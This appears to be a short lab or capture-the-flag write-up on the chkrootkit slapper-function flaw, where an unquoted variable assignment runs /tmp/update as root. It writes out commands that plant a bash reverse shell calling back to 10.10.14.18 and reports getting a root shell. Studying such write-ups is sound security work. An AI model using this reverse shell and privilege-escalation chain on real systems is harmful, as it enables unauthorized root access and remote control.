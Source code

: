 ```
   fi
}


The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

```
In the for loop in the slapper function, file_port=$file_port $i is not quoted. The end result is bash executing $i, $i being all the files listed in "SLAPPER_FILES", one of which is /tmp/update which I had control over. 

>Note that this will only work if /tmp is not mounted with the noexec option.

I created a the file /tmp/update, added a bash reverse shell to /tmp/uppdate, and when the process ran I received a shell as root

```
echo '#!/bin/bash' > /tmp/update
echo 'bash -i >& /dev/tcp/10.10.14.18/4201 0>&1' >> /tmp/update && chmod +x /tmp/update
```

![image](https://user-images.githubusercontent.com/10210108/83320008-2230f900-a211-11ea-9086-806af9e5ee57.png)
